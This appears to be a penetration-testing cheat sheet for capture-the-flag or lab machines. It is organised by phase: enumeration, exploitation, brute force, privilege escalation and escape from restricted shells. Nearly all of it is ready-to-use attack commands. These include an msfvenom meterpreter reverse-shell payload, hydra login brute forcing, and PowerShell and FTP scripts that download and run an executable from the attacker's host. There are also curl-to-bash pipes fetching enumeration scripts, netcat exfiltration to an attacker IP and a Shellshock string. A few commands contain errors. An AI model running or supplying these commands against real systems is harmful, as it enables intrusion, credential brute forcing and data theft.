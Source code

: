 ## Enum
* `nmap -Pn -n -p- -sT --min-rate 5000 {ip}` _Quick nmap all ports_
* `nmap -Pn -n -p- -sV -A {ip}` _Slow nmap all info_
* `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://{site} -r -t {n} -o gobuster.txt ` _Gobuster scan for folders with n threads_
* `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://{site} -r -t {n} -x php,asp,aspx,html -o gobuster_aspx.txt` _Gobuster scan for pages with n threads_
* `wfuzz -hw {hide rows with this number of words} --hh {hide rows with this number of chars} -hc {hide rows with this response code} -w {wordlist} {URL}/FUZZ` _Use wfuzz to enumerate pages when gobuster won't work_
* _To clone git repos from challenge machines the url from the git config file must be added to the local host file_
* _https://www.wappalyzer.com/download wappalyzer to identify technologies used on websites_
* _https://retirejs.github.io/retire.js/ find old javascript libraries with known vulns on a a page_

## Exploit
* `python -m SimpleHTTPServer 80` _Start web server on kali in current dir_
* `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={ip} LPORT={port} -f exe >m.exe` _Make a standard meterpreter exe_
* `tcpdump -i {tun0} icmp` _Listen for ping requests.  Useful when testing RCE_

## Password Attacks
* `hydra -l {username} -P {password file} {base url or ip} -s{port} http-post-form "/index.php:user=^USER^&password=^PASS^:{failed string}"`  _Brute force http post login with hydra_

## Priv Esc Windows
* `powershell -command "& { (New-Object Net.WebClient).DownloadFile('http://{kali_ip}:8080/m.exe', 'c:\users\victim\desktop\m.exe') }"` _Powershell download a file_
* `systeminfo >systeminfo.txt` _Export sysinfo from windows
* `python windows-exploit-suggester.py --database 2018-09-06-mssb.xls --systeminfo sysinfo.txt` _Use exported sysinfo file to check for possible exploits using this tool https://github.com/GDSSecurity/Windows-Exploit-Suggester.git_
* `python windows-exploit-suggester.py --update` _Get new database file for exploit suggester_
* `cmd.exe /c @echo open x.x.x.x 21>c:\users\victim\desktop\ftp.txt&@echo USER anonymous>>c:\users\victim\desktop\ftp.txt&@echo anonymous>> c:\users\victim\desktop\ftp.txt&@echo binary>>c:\users\victim\desktop\ftp.txt&@echo get met.exe>>c:\users\victim\desktop\ftp.txt&@echo quit>>c:\users\victim\desktop\ftp.txt&@ftp -v -n -s:c:\users\victim\desktop\ftp.txt&@start met.exe` _Create a scirpt to download a file via ftp, then run the script, then run the downloaded file_

## Priv Esc Linux
* `curl {kali_ip}:{port}/LinEnum.sh | /bin/bash` _Run linux enum script without dropping it on disk_
* `curl {kali_ip}:{port}/linuxprivchecker.py | python` _Run linux priv checker without dropping it on disk_
* `/sbin/getcap -r / 2>/dev/null` _Search filesytem for files with special capabilities.  Similar to suid_
* `find / -type f -name "*" -newermt 2018-09-07 ! -newermt 2018-09-08 2>/dev/null` _Find all files modified on a particular day.  Maybe same day as user flag. example show sep 7 2018_
* `ssh -L {localport}:localhost:{remoteport} {user}@{remoteip}` _Forward a port through ssh_
* `nc -w 3 {attacker ip} {port} < {filename}` _Send file with netcat_
* `nc -l -p {listen port} > {filename}` _Receive file with netcat_
* `sudo -l` _Show commands that can be run as sudo_
* `python -c 'import pty:pty.spawn("/bin/bash")'` _Get a better shell in netcat_
* `CTRZ + z -- stty raw -echo  -- fg` _Make netcat python shell interactive.  You won't see fg when it's typed.  Just hit enter._

## Pric Esc Generic
* `run post/multi/recon/local_exploit_suggester` _Check for local priv esc exploits.  Must be interacting with meterpreter session_

## Break out of limited shell 
**(Credit Gos Here https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)**
* `env` _Check environmential variables_
* `echo $PATH` _Check path for executables_
* `echo $SHELL` _What shell is in use_
* `/bin/sh` _Just run new shell_
* `export PATH=/bin:/usr/bin:$PATH` _Just add folders to PATH_
* `export SHELL=/bin/sh` _Just change shell_
* `cp /bin/sh /some/dir/from/PATH; sh` _Copy sh to a runable folder and launch it_
* `ftp, gdb, more, less, man, vi, vim, scp, awk, find` _Can all launch shells_
* `ssh restricted@x.x.x.x -t "/bin/sh"` _Execute /bin/sh before remote shell is loaded_
* `ssh restricted@x.x.x.x -t "bash --noprofile"` _Start remote shell without loading rc profile_
* `ssh restricted@x.x.x.x -t "() { :; }; /bin/bash"` _Try shell shock_
* `python -c 'import os; os.system("/bin/bash")'` _Launch shell with python_
* `perl -e 'exec "/bin/sh";'` _Launch shell with perl_

